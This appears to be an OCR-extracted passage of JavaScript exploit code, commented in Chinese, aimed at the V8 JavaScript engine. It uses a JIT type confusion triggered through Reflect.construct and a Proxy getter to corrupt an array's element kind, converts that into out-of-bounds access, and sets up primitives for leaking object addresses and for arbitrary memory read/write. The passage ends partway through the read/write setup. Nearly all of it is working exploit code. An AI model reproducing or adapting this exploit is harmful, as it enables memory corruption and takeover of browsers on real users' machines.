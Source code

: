 ```javascript
function f2half(val)
{
    float64[0]= val;
    let tmp = Array.from(uint32);
    return tmp;
}
// 32-->64
function half2f(val)
{
    uint32.set(val);
    return float64[0];
}
// 显示十六进制，纯粹为了美观
function hex(a) {
	return "0x" + a.toString(16);
}

function empty() {}
function f(p) {
	// 2.42902434121390450978968281326E-319 == 0xC00C
	vuln_array.push(typeof(Reflect.construct(empty, arguments, p)) === Proxy ? 0.2 : 2.42902434121390450978968281326E-319*2);
	for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
}
let p = new Proxy(Object, {
	get: () => {
		vuln_array[0] = {};					// 修改之后的类型是HOLEY_ELEMENTS
		oob_array = [1.1];					// 修改此数组的length来达到oob
		uint64_arw = new BigUint64Array(2);	// 实现任意地址读写
		obj_leaker = {
            a: 0xc00c/2,
            b: oob_array,
        };									// 实现地址泄露
		//%DebugPrint(oob_array);
		//%DebugPrint(uint64_arw);
		//%DebugPrint(obj_leaker);
		//%SystemBreak();
		return Object.prototype;
	}
});
function main(p) {
	for (let i=0; i<0xc00c; i++) {empty();}	// 触发JIT
	f(p);
}
// 将类型混淆转化为越界读写
function confusion_to_oob() {
	console.log("[+] convert confusion to oob......");

	for (let i=0; i<0xc00c; i++) {empty();}	// 触发JIT

	main(empty);
	main(empty);

	main(p);
	console.log("	oob_array.length: " + hex(oob_array.length));
}
// 获取任意地址读写
function get_arw() {
	console.log("[+] get absolute read/write access......");
	
	// 相对于oob_array[0]的偏移
	uint64_length_offset = 16;
	uint64_externalptr_offset = 17;
```